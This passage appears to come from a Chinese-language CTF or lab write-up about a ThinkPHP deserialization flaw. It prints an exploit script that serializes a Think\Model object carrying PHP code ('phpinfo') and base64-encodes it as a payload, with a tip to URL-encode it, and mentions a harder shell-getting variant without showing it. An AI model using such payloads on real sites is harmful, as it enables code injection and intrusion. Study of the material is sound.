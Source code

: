 exp:

```php
<?php
namespace Think;
class Model{
    public $id='2';
    public $username="<?php phpinfo();?>";
}
$payload = new Model();
var_dump($payload);
echo 'paylaod$： '.base64_encode(serialize($payload));
```

base64结果可以url编码一下更好

![26](/medias/show-think/26.png)

![27](/medias/show-think/27.png)

另外一种`需要拿shell，稍微有点难`，看其他师傅博客的poc好长，等我变成tp大佬就回来分析(星星眼)
